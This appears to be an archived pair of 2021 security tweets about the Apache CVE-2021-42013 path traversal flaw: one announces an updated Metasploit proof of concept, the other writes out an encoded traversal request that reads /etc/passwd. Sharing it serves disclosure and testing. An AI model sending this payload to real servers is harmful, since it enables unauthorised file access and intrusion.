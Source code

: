 
# Mekhalleh
**https://twitter.com/Mekhalleh/status/1446452062020067328 _at 2021-10-08, 12:27:00_**
<blockquote>
I just update the PoC to introduce the CVE-2021-42013 (Traversal/RCE into Apache 2.4.49/2.4.50)

Support more check, incluing the file reading on remote vulnerable servers (from @RandomDhiraj).

cc @metasploit, @ANSSI_FR @Dinosn 

https://t.co/nw13F11Plx
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/15754#issuecomment-938575513

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# Vulnmachines
**https://twitter.com/Vulnmachines/status/1446351656568852483 _at 2021-10-08, 05:48:01_**
<blockquote>
Reproduce CVE-2021-42013 Apache 2.4.50 path traversal vulnerability.

Path traversal vulnerability

GET /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd

#infosec #cybersecurity #Apache https://t.co/MovReofUqO
</blockquote>

<table><tr>
<td><img src="pictures/ef43c4f809c450dfc3040d92dbbe84ee92f1f78fe5c3f83ff0ee4ad93a28d429.jpg" alt="ef43c4f809c450dfc3040d92dbbe84ee92f1f78fe5c3f83ff0ee4ad93a28d429.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---